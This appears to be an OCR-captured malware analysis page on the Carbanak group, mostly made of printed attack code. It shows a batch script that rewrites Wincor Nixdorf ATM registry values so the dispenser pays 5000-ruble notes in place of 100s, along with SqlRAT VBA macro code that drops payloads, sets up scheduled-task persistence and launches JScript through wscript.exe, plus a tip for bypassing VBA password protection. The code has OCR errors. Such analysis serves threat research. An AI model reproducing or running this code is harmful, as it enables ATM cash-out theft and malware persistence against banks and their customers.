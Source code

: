 # Carbanak

## Features

1. The organization will download the malicious script 1.bat when it has the authority of the ATM machine. After downloading, it will immediately execute the script to change the face value of the note in the registry of the ATM machine. For example, the attacker receives 10 banknotes with a face value of 100 rubles, but in fact it is a banknote with a face value of 5000 rubles.

```bash
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_1 /t REG_SZ
/d “5000” /f
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_2 /t REG_SZ
/d “1000” /f
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_3 /t REG_SZ
/d “500” /f
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_4 /t REG_SZ
/d “100” /f
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_1 /t REG_SZ
/d “100” /f
REG ADD “HKEY_LOCAL_MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_DISPENSER” /v VALUE_4 /t REG_SZ
/d “5000” /f
shutdown -r -t 0 –f
```

This script modifies the registry HKEY_ LOCAL_ MACHINE\SOFTWARE\Wincor Nixdorf\ProTopas\CurrentVersion\LYNXPAR\CASH_ VALUE of DISPENSER_ The value of 1 is 100, and  modified the VALUE_4 is 5000, and then restart the computer. After the restart, the denomination of the 1 note will be changed to 5000 instead of 100.

2. When creating a malicious document using SqlRAT tool, it will contain an image to induce the victim to double-click the image to start VBA. Its code is encrypted. You can open it through a hexadecimal editor and search the password location to replace the DPb ID with the DPx ID to bypass it. The VBA code will declare the names of three files to write to the saved Payload later.

```vba
Private Sub StartUnlock()
      Dim ldoc As Document, shds As Shapes, shd As Shape
      Dim pfs As Paragraphs, pf As Paragraph
      Set ldoc = Application. ActiveDocument
      Set shds = ldoc.Shapes
      Set pfs = ldoc.Paragraphs
      fn1 = "init.dot"
      fn2 = "mspromo.dot"
      fn3 = "second.dot"
      fl = 0
      For Each pf In pfs
            rg = pf.Range .Text
            If   (Instr(1, rg, "[PROTECTED CONTENTS]")> 0) Then
                  fl = 1
            End If
      Next
      ltm = Timer
      While (Timer < (ltm + 1))
             DoEvents
      Wend
      lf (fl = 1) Then
          Addstr "Preparing to starting unlocking. . . ...... . OK"
      Else
          Addstr "Preparing to starting unlocking. . . ...... . Err"
          ErrUnlock
          Exit Sub
      End lf
```

Then declare three variables to write content for the three empty files created.

```VBA
sc1 = ""
sc2= ""
sc3 = ""
ltm = Timer
Errl = 0
For Each shd In shds
      If (shd.Name = "Sh000001") Then
          sc1 = shd.TextFrame .TextRange .Text
          Errl = Errl +1
      End If
      If (shd. Name = "Sh000002") Then
          sc2 = shd.TextFrame.TextRange.Text
          Errl = Errl +1
      End If
      If (shd. Name = "Sh000003") Then
          sc3 = shd.TextFrame .TextRange.Text
          Errl = Errl + 1
      End If
```

The written file will be stored in the% APPDATA%\Microsoft\Templates directory, and then a scheduled task will be created to maintain its persistence.

```VBA
Private Sub b14(lparam, rparam, Descr)
Set service =CreateObject ("Schedule.Service")
Call service.Connect
Dim rootFolder, lFld
//Define folder objects
Set rootFolder = service.GetFolder("\")
//Get registered task folder
Set nFolder = rootFolder
Dim taskDefinition
//Define all script objects of the task
Set taskDefinition = service.NewTask(0)
Dim regInfo
//Define task registration information
Set regInfo = taskDefinition.RegistrationInfo
regInfo. Description = Descr
regInfo.Author = "system"
Dim settings
Set settings = taskDefinition.settings
settings.Enabled = True
settings.StartWhenAvailable = True
settings.Hidden = False
Dim triggers
//Define trigger
Set triggers = taskDefinition.triggers
Dim trigger
Set trigger = triggers.Create(2)
Dim startTime, endTime
//Define when the trigger is activated
Dim time
time = #1/2/2018 9:00:00 AM#
startTime = XmlTime (time)
time = #1/2/2026 9:10:00 AM#
endTime = XmlTime ( time)

trigger.StartBoundary = startTime
trigger.EndBoundary = endTime
trigger. DaysInterval = 1  //Run the scheduled task every day
trigger.ID = "DailyTriggerId"
trigger.Enabled = True
If (lparam = "init.dot") Then
trigger.RandomDelay = "PT2M"
Else
trigger.RandomDelay = "PT3M"
//Set task repetition times
End lf
```

3. Launch malware by calling JavaScript through Windows tool wscript.exe.

```vba
Dim Action
Set Action = taskDefinition.Actions.Create(0)
Action.Path = "wscript.exe"
Action.Arguments = "/b /e:jscript """ & rparam & "\" & lparam & """"
'Action . Type = 0
Call rootFolder.RegisterTaskDefinition(Descr, taskDefinition, 6, , , 3)
```
